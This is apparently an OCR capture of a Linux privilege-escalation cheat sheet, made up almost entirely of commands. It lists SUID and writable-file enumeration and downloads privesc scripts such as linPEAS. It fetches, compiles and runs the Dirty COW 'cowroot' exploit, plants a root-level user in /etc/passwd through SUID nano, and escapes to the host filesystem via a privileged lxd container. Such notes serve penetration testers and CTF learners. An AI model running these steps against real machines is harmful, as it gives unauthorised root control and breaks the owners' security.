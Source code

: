 ```
ls -ls /var/www/html/
find /* -user root -perm -4000 -print 2>/dev/null
##-rwsr-xr-x [SUID exploitation eg using nano to edit /etc/passwd - see below] 
cat /etc/fstab
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep root
find / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null
find /etc -perm -2 -type f 2>/dev/null
find / -writable -type d 2>/dev/null
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
wget http://www.securitysift.com/download/linuxprivchecker.py
wget http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
./unix-privesc-check standard
./unix-privesc-check detailed
wget https://www.exploit-db.com/download/40616 -O cowroot.c
gcc cowroot.c -o cowroot -pthread
./cowroot
echo 0 > /proc/sys/vm/dirty_writeback_centisecs

```

##### :panda_face: SUID exploit of nano and etc/passwd
```
find /* -user root -perm -4000 -print 2>/dev/null
[nano]
perl -e 'print crypt("YourPasswd", "salt"),"\n"'
perl -e 'print crypt("pom", "pom"),"\n"'
nano /etc/passwd
pom:poD7u2nSiBSLk:0:0:root:/root:/bin/bash
su pom [pass pom]
```

##### :panda_face: exploit  ‘lxd’ group
```
id
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python -m SimpleHTTPServer 80
cd /tmp
wget http://[IP]/alpine-v3.12-x86_64-BLAH_BLAH.tar.gz
lxc image import alpine-v3.12-x86_64-BLAH_BLAH.tar.gz --alias myimage
lxc image list
lxc init myimage shell -c security.privileged=true
lxc config device add shell mydevice disk source=/ path=/mnt/root recursive=true
lxc start shell
lxc ls
lxc exec shell /bin/sh
cat /mnt/root/etc/os-release
```
